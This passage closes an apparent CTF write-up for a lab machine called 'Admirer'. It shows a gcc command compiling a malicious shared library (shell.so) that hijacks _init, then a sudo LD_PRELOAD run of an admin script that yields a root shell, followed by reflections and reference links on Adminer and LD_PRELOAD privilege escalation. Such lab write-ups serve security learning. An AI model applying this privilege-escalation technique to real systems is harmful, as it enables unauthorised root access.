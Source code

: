 Here, our link library hijacks the [`_init` function](https://tldp.org/HOWTO/Program-Library-HOWTO/miscellaneous.html).

Finally, compile the library with this command.

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

If everything goes well, you will find `shell.so` compiled. 

### Getting A Shell

After infiltrating the library payload, we execute the script as root with an altered LD_PRELOAD path to get a shell.

```
waldo@admirer:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /opt/scripts/admin_tasks.sh 
# whoami
root
```

# Thoughts

This box is filled to the brim with rabbit holes. We are basically spammed with credentials. That took up quite a bit of time.

It's fun to use Wireshark to examine MYSQL packets for the files content.

I tried tunnelling with ftpuser's limited SSH account but could not get it to work. Got this idea due to reference to internal mail.

**MySQL (MariaDB)**

* https://mariadb.com/kb/en/account-management-sql-commands/
* https://github.com/nixawk/pentest-wiki/tree/master/2.Vulnerability-Assessment/Database-Assessment/mysql

**Adminer Vulnerability**

* https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f
* https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability
* https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
* https://www.vesiluoma.com/abusing-mysql-clients/

**LDPRELOAD**

* https://www.sudo.ws/man/1.8.13/sudoers.man.html 
* https://touhidshaikh.com/blog/2018/04/sudo-ld_preload-linux-privilege-escalation/
* https://packetstormsecurity.com/files/71988/sudo-local.txt.html
